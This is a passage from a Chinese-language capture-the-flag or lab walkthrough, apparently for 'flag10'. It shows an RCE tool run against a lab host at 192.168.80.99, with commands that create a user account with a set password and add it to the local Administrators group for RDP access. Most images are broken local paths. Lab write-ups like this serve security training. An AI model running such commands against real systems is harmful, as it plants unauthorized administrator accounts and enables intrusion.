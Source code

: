 ![image-20231019141712913](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231019141712913.png)

直接用rce利用工具，创建用户，rdp练级

```bash
sunRce.exe -h 192.168.80.99 -p 49673 -c "net user Ki1ro 1qaz!QAZ /add" -t rce
sunRce.exe -h 192.168.80.99 -p 49673 -c "net localgroup Administrators Ki1ro /add" -t rce
```

![image-20231019141807220](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231019141807220.png)

### flag10

获取flag

![image-20231019141846109](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231019141846109.png)